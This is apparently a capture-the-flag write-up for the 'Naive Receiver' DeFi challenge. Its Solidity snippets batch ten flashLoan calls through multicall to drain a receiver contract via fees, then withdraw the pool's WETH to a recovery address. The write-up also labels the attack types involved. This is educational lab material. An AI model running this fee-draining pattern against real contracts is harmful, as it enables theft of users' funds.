

# Naive Receiver

## Challenge

There’s a pool with 1000 WETH in balance offering flash loans. It has a fixed fee of 1 WETH. The pool supports meta-transactions by integrating with a permissionless forwarder contract. 

A user deployed a sample contract with 10 WETH in balance. Looks like it can execute flash loans of WETH.

All funds are at risk! Rescue all WETH from the user and the pool, and deposit it into the designated recovery account.

## Solution

I used the multicall function that the NaiveReceiverPool contract inherits, to delegate call the flashLoan function ten times, which took a fixed fee of 1 ether from the receiver contract each time it was called,hence draining out the receiver contract.

```
for (uint256 i = 0; i < 10; i++) {
    loanCalls.push(
        abi.encodeWithSignature(
            "flashLoan(address,address,uint256,bytes)",
            receiver, // The receiver address
            address(weth), // The WETH token address
            WETH_TO_BORROW, // Amount to borrow
            bytes("") // Empty calldata
        )
    );
}
pool.multicall(loanCalls);
```

Since the deployer was already set as the feeReceiver and it also payed the 1000 WETH into the contract upon deployment, I used it to withdraw all the WETH from the NaiveReceiverPool contract to the recovery address.

```
pool.withdraw(weth.balanceOf(address(pool)), payable(recovery));
```



## Attack Classification

### Economic Exploit
The attack exploits the fee mechanism to drain funds economically by making repetitive calls.

### DoS (Denial of Service)
Draining the receiver's balance effectively prevents it from using flash loans in the future, as it will lack the funds to pay the fixed fee.

### Permissionless Withdrawal
The withdraw function allows the deployer (feeReceiver) to withdraw all funds from the pool without safeguards,which exploits a lack of access control to perform fund transfers that drains the contract at once.